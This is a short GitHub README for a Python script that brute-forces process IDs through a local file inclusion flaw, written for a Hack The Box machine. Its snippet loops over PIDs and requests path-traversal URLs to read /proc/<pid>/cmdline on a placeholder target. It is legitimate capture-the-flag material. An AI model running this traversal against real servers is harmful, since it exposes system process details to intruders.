 # PID-bruteforce-via-LFI

## Vulnerability
I wrote this python script to help solve the backdoor machine in Hack The Box. The script was used for a brute forcing PID via LFI vulnerability. 


### Tool Overview

The tool Brute-force multiple requests trying a range of numbers for all the PID in the proc directory and filter the results based on the responses length  .

### How to Setup:
1. Change the URL paramenter with the LFI vulnerable site`

```py

for x in range(0,10000):

	url = "http://VULNERABLE.SITE.URL/../../../../../../proc/"+ str(x) +"/cmdline"
	r = requests.get(url)
	
```         

### Usage:
Use this command to run the python tool you just setup:

`Python3 File-Name.py`


| Screenshot |
|------------|
|![Screenshot](![PID](https://user-images.githubusercontent.com/68829493/155852527-175a99b4-60d4-4704-9033-fb59b04c2fb5.png)
)






